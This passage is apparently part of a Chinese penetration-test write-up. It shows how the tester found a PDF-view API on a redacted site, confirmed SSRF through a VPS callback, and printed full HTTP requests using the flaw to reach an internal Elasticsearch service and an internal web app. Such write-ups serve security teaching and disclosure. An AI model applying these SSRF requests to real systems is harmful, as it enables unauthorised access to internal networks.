 一级接口目录都做的这么复杂，也难怪目录爆破的时候没有成果了。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/YmmVSe19Qj48Ul9dxl0EhcJXQ6TZibic9MTicZFuDeJ7gQPRXfIIeOr7CfB2jHTJ96AINP2jgFyRQtNU7sZwBkvgg/640?wx_fmt=jpeg "")  
  
在**/js/apply.js**  
文件中发现了系统接口：**file/pdf/view?file=**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/YmmVSe19Qj48Ul9dxl0EhcJXQ6TZibic9MDHIuKAcaic1NjmdCZjsSKv0zOSFpExpxYLicAe1riaMJvQh3CwcjztU2Q/640?wx_fmt=jpeg "")  
  
将一级接口目录**/xxxapi/**  
与系统接口**file/pdf/view?file=**  
进行拼接，组成可用接口：  

```
http://xxx-desktop.xxx.com/xxxapi/file/pdf/view?file=
```

  
并且发现JavaScript代码中的逻辑是：**接口 + ecsUrl**  
，因此猜测**file**  
参数为一个URL。  
  
接下来尝试调用接口进行SSRF利用。  
  
首先，使用VPS监听端口，尝试直接利用SSRF访问我们的端口，发现成功接收到了Java语言进行的HTTP请求！  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/YmmVSe19Qj48Ul9dxl0EhcJXQ6TZibic9Mph9NBBCXRHBe1uvuHbaibEgL6uzp7iaJump3xvfxGyz1icicCtt0T7MMgw/640?wx_fmt=jpeg "")  
  
至此证明了漏洞是存在的，接下来利用**SSRF**  
进行内网资源的请求尝试，由于在之前的测试中，已经收集到了一部分内网资产，所以直接拿过来测试访问即可。  
  
测试访问内网**Elasticsearch**  
服务：**http://10.x.x.191:9200**  

```
GET /xxxapi/file/pdf/view?file=http://10.x.x.191:9200/ HTTP/1.1
Host: xxx-desktop.xxx.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/YmmVSe19Qj48Ul9dxl0EhcJXQ6TZibic9MyFictjFoFiaSjhooAUVj5uxEtuiboqKjjmEuF7SDHIkKPZiaqYMic1y61yQ/640?wx_fmt=jpeg "")  
  
测试访问内网**Web应用**  
服务：http://10.x.x.65:8081/  

```
GET /xxxhapi/file/pdf/view?file=http://10.x.x.65:8081 HTTP/1.1
Host: xxx-desktop.xxx.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```
